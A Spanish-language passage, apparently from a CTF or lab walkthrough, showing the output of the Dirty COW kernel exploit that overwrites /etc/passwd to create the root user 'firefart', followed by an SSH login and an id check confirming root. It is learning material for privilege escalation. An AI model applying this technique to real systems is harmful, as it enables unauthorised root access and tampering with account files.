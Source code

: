 ```

mmap: 7fe680afd000
madvise 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

Y una vez ejecutado, si vemos el archivo `passwd` podremos ver que hay un usuario llamado `firefart` que tiene la `bash` de `root` por lo que cambiaremos a ese usuario con la contraseña que le metimos.

(Igualmente nos dice que el usuario es `firefart` y la password la que hayamos puesto en mi caso `1234`)

```shell
ssh firefart@<IP>
```

Y una vez metida la contraseña entraremos como ese usuario `root`, si hacemos `id` veremos lo siguiente.

```shell
id
```

Info:

```
uid=0(firefart) gid=0(root) groups=0(root)
```

Por lo que vemos somos `root`.
